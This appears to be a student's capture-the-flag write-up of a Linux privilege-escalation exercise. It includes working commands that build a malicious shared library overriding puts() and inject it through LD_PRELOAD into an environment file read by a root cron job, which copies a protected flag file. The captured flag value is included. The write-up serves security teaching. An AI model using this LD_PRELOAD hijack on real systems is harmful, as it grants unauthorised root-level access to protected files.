







# Linux Environment 

## Exploration

Upon accessing the Linux server in the port `4006` of `ctf-fsi.fe.up.pt`, we were quick to search for potencial clues. Inside the directory "/home/flag_reader", where we started, the following files were found:



While checking their content, we immediately found our first clue in the file "admin_note.txt":



We could tell "/tmp" would have some clues.
Checking "main.c", we found the location of our goal, the flag. It would be found in the file "/flags/flag.txt":



We also found "reader", which is the executable file for "main.c", and "my_script.sh", which adds whatever is in the `env` file to the **environment variables** and executes `reader`:



After attempting to execute both "reader" and "my_script.sh", we kept getting the following message:



We found it weird that the file did not exist despite being included in "main.c". After trying to access "/flags", we were denied permission to access it. It had become clear we would **need to have more permissions** in order to access the flag. 

After exploring "/tmp", all we can find there is the `env` file "my_script.sh" refers to. Unlike in "/home/flag_reader", where we **could not create or modify files**, it turned out we could do so in "/tmp", including to the `env` file! 

The last clue was found using the `top` command, which displays the running processes. By using it, we could see that a `cron` process was running, **with 'root' permissions**:



After reviewing the exercice's description, we realised this `cron` was running "my_script.sh" **periodically**.
We decided to exploit the environment variable `LD_PRELOAD`, which, as we studied, loads the associated libraries before any others.

## Execution 

To get the most out of this vulnerability, we mostly worked inside "/tmp". 
We started by creating a C file with "malicious" code, meant to write the flag on another file, using the following commands:

```sh
touch lib.c
echo "#include <stdio.h>
#include <stdlib.h>
int puts (const char *str)
{
    system(\"/usr/bin/cat /flags/flag.txt > /tmp/flag.txt\");
    return 0;
}" > /tmp/lib.c
```
We replaced the function `puts()`, since the program "reader" uses it.

Afterwards, we created a shared library in the same folder, from this C file:

```sh
gcc -c -o lib.o lib.c
gcc -shared -o lib.so lib.o
```

Lastly, all we had to do was set the environment variable:

```sh
echo LD_PRELOAD=/tmp/lib.so > env
```

With this done, all we had to do was wait until the `cron` ran. And a few moments later, it did.



We found the flag `flag{5ff2b5ce4a3db5ee5883cfb75e994b99}`!
